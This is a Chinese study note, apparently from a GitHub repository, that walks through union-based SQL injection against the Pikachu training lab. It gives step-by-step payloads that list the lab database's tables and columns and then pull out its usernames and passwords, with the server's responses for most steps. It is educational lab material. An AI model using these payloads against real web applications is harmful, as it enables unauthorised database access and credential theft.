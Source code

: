 # pikachu-labs-SQL-injection 学习笔记

## 数字型注入（post）

1. ![014A3860](C:\Users\F1245363\AppData\Local\Temp\SGPicFaceTpBq\4560\014A3860.png)判断注入类型：

   ```sql
   发现是联合注入
   ```

2. 获取表中字段列数：

   ```sql
   id=1000 union (select 1,2)--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   hello,1 <br />
   your email is: 2
   ```

3. 获取数据库名：

   ```sql
   id=1000 union (select 1, database())&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```sql
   hello,1 <br />
   your email is: pikachu
   ```

4. 获取数据库表名：

   ```sql
   id=1000 union (select 1,group_concat(table_name) from information_schema.tables where table_schema = 'pikachu')&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```sql
   hello,1 <br />
   your email is: httpinfo,member,message,users,xssblind
   ```

5. 获取指定表中的列名( 接下来我们想要攻破 users 这个表 )：

   ```sql
   id=1000 union (select 1,group_concat(column_name) from information_schema.columns where table_name = 'users')&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```sql
   hello,1 <br />
   your email is: id,username,password,level,id,username,password
   ```

6. 获取 users 表所有的 username 及 password 数据：

   ```sql
   id=1000 union (select 1,group_concat(username,' : ',password) from users)&submit=%E6%9F%A5%E8%AF%A2
   ```
